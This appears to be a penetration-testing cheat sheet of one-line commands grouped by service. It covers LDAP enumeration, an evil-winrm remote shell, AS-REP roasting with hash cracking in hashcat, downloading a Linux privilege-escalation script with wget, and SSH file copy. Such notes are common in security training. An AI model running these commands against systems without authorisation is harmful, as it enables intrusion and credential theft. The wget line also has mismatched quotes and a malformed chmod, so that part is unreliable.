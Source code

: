 # LDAP

`nmap -p 389 --script ldap-search $IP`

`ldapsearch -h $IP -p 389`

`ldapsearch -LLL -x -H ldap://<FQDN> -b '' -s base '(objectclass=*)'`

`ldapsearch -h $IP -p 389 -x -b "dc=example,dc=com"`

# WinRM

`evil-winrm -i $IP -u <username> -p 'password' -s '/directory/to/scripts/' -e '/directory/to/exe_files/'`

# Kerberos

#### ASREPRoast (Check for no pre-auth required accounts)
`./GetNPUsers.py -dc-ip $IP <domain>/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast`

`hashcat -m 18200 --force -a 0 hashes.asreproast /usr/share/wordlists/rockyou.txt`

# Linux

#### Enmeration Script: LinEnum.sh, linux-smart-enumeration, linPE

`wget “https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh" -O lse.sh; chmod X+ lse.sh`

`./lse.sh -l2`

# General

`crontab -l`

`ps -aux`

https://gtfobins.github.io/

# SSH

#### Copy
`scp <source_file> <user>@$IP:<destination_path>`

#### Mount
`sshfs <user>@$IP:<destination_path> <source_file>`

